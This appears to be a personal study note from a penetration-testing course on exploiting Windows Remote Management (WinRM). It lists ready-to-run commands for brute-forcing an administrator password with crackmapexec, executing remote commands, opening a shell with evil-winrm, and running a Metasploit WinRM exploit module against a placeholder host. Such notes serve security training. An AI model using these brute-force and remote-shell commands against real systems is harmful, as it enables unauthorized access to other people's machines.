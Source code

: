 202403181436
Status: #Note
Tags: #Exploitation #Windows #WinRM

# Exploiting WinRM

## Overview
- Typically uses *TCP port 5985* and *5986* (HTTPS)
- Is a Windows Remote Management protocol that can be uses to facilitate remote access over HTTP(S).
- It utilizes various forms of authentication.
- We can use `crackmapexec` to brute-force in order to identify users and passwords, and execute commands on the target.
- We can also use `evil-winrm` to obtain a shell session on the target.


## Exploitation

*Brute-forcing Password*
```bash
crackmapexec winrm 192.168.1.1 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

*Execute commands (Creds Needed)*
```bash
crackmapexec winrm 192.168.1.1 -u administrator -p thepassword -x "whoami"
```

*Establishing a shell*
```bash
evil-winrm-rb -u administrator -p 'thepassword' -i 192.168.1.1
```

### Metasploit
*Execute commands (Creds Needed)*
```bash
service postgresql start && msfconsole
msf5 > use exploit/windows/winrm/winrm_script_exec
msf5 > set RHOSTS 192.168.1.1
msf5 > set FORCE_VBS true
msf5 > set USERNAME administrator
msf5 > set PASSWORD thepassword
msf5 > exploit
```


### Supplementary

### Sources
[INE - Host & Network Penetration Testing: System/Host Based Attacks](https://my.ine.com/CyberSecurity/courses/67c3945f/host-network-penetration-testing-systemhost-based-attacks)
